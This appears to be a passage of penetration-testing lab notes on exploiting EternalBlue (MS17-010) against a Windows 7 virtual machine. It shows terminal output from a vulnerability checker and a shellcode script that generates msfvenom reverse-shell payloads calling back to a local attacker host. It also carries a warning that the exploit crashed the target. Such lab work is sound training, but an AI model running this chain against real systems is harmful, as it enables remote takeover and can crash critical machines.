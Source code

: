 The exploit led to the victim machine crashing (blue screen), which led TCM to
warn of the dangers of RCE in pentests without the customers' explicit
permission. If a critical machine crashed e.g. in a hospital, the consequences
might be servere.



┌──(venv)─(kali㉿kali)-[~/Capstone/Blue/AutoBlue-MS17-010]
└─$ python eternal_checker.py 10.0.2.15
[*] Target OS: Windows 7 Ultimate 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done



┌──(venv)─(kali㉿kali)-[~/Capstone/Blue/AutoBlue-MS17-010/shellcode]
└─$ ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.0.2.5
LPORT you want x64 to listen on:
9999
LPORT you want x86 to listen on:
2222
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.0.2.5 LPORT=9999
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...

msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.0.2.5 LPORT=2222
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin
